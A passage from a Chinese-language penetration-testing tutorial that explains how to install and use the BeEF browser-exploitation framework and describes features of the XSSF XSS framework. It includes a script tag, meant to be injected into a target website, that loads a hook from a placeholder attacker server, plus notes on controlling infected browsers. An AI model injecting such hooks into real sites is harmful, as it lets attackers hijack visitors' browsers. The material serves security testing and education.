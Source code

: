 - **渗透测试**：
  - 在渗透测试中，BeEF 可以帮助测试人员进一步利用 XSS 漏洞，获取更多信息或执行更复杂的攻击。

**安装与使用**：

1. **安装 BeEF**：
   - 可以通过 GitHub 仓库安装：
     ```bash
     git clone https://github.com/beefproject/beef.git
     cd beef
     ./install
     ```
   - 或者使用 Docker 镜像：
     ```bash
     docker pull beefproject/beef
     docker run -p 3000:3000 beefproject/beef
     ```

2. **启动 BeEF**：
   - 启动 BeEF 服务器：
     ```bash
     ./beef
     ```
   - 访问管理界面：
     ```
     http://localhost:3000/ui/panel
     ```

3. **注入 BeEF Hook**：
   - 将 BeEF Hook 脚本注入到目标网站：
     ```html
     <script src="http://your-beef-server-ip:3000/hook.js"></script>
     ```

4. **控制浏览器**：
   - 在 BeEF 管理界面中，可以看到受感染的浏览器列表，并执行各种命令。

### 2. XSSF (XSS Framework)

**简介**：
XSSF 是一个用于构建和执行 XSS 攻击的工具框架。它提供了丰富的功能，帮助安全研究人员自动化和扩展 XSS 攻击。

**主要功能**：

- **自动化攻击**：
  - 支持自动化执行 XSS 攻击，包括 payload 注入、命令执行等。

- **丰富的 payload 库**：
  - 内置大量的 XSS payload，并支持用户自定义 payload。

- **模块化设计**：
  - 采用模块化设计，允许用户添加自定义模块以扩展其功能。

- **多平台支持**：
  - 支持多种操作系统，包括 Windows、Linux、macOS 等。
